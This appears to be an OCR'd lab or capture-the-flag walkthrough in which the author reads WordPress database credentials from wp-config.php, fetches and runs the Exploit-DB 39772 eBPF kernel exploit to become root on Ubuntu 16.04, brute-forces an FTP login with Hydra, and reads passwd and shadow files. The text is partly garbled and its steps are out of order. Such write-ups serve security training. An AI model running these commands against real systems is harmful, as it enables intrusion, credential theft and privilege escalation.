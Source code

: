 ```shell
   python3 -c 'import pty;pty.spawn("/bin/bash")'
   cd /home/www
   cd
   cd /var/www/https/blogblog
   cat wp-config.php
 # here we got phpadmin user and passwd
 # /\*\* MySQL database username & password _/
   define('DB_USER', 'root');
   define('DB_PASSWORD', 'plbkac');
 # but we need to escalating privilege
   cd /home/www
   lsb_release -a
   Description: Ubuntu 16.04 LTS
```

   - Exploit-DB Mirror: https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
   - If .zip use unzip to extract, if .gz use gunzip to extract

```shell
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
# to extract .tar extension tar -xvf <file.tar>
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

 - Now if you check whoami it will show ‘root’
 - Hydra is a tool to guess/crack valid login/password pairs.

```shell
hydra -h

hydra -l elly -e nsr
 - Ex. Username: elly
 - n = null : Password: \_\_\_
 - s = same : Password: elly
 - r = reverse : Password: ylle
   - FTP : 21/tcp

hydra -l elly -e nsr ftp://192.168.1.35
[DATA] attacking ftp://192.168.1.35:21/
[21][ftp] host: 192.168.1.35 login: elly password: ylle
1 of 1 target successfully completed, 1 valid password found
```

now look for the sensitive files like, get dbconfig-common, shadow, passwd.

In the passwd file we get more users list

For sorting it we use:

`cat passwd | grep /home`
: will shows only user’s details
